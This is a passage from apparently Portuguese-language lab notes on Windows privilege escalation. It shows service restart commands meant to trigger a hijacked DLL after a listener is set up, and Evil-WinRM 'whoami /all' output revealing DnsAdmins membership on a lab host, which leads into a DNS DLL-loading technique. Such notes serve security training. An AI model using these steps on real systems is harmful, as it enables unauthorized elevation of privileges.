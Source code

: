         Set up the listener
        
        `sc stop dllsvc
         sc start dllsvc`
        
        ![Untitled](Privelige%20excalation%20959f3e5c95f04c0cb21f30f9a00bb8c7/Untitled%2031.png)
        
    
- DLL Dns
    
    Ao enumerar o utilizador encontramos `MEGABANK\DnsAdmins`
    
    ```
    Evil-WinRM* PS C:\Users\ryan\Documents> whoami /all
    
    USER INFORMATION
    ----------------
    
    User Name     SID
    ============= ==============================================
    megabank\ryan S-1-5-21-1392959593-3013219662-3596683436-1105
    
    GROUP INFORMATION
    -----------------
    
    Group Name                                 Type             SID                                            Attributes
    ========================================== ================ ============================================== ===============================================================
    Everyone                                   Well-known group S-1-1-0                                        Mandatory group, Enabled by default, Enabled group
    BUILTIN\Users                              Alias            S-1-5-32-545                                   Mandatory group, Enabled by default, Enabled group
    BUILTIN\Pre-Windows 2000 Compatible Access Alias            S-1-5-32-554                                   Mandatory group, Enabled by default, Enabled group
    BUILTIN\Remote Management Users            Alias            S-1-5-32-580                                   Mandatory group, Enabled by default, Enabled group
    NT AUTHORITY\NETWORK                       Well-known group S-1-5-2                                        Mandatory group, Enabled by default, Enabled group
    NT AUTHORITY\Authenticated Users           Well-known group S-1-5-11                                       Mandatory group, Enabled by default, Enabled group
    NT AUTHORITY\This Organization             Well-known group S-1-5-15                                       Mandatory group, Enabled by default, Enabled group
    MEGABANK\Contractors                       Group            S-1-5-21-1392959593-3013219662-3596683436-1103 Mandatory group, Enabled by default, Enabled group
    MEGABANK\DnsAdmins                         Alias            S-1-5-21-1392959593-3013219662-3596683436-1101 Mandatory group, Enabled by default, Enabled group, Local Group
    NT AUTHORITY\NTLM Authentication           Well-known group S-1-5-64-10                                    Mandatory group, Enabled by default, Enabled group
    Mandatory Label\Medium Mandatory Level     Label            S-1-16-8192
    ```
    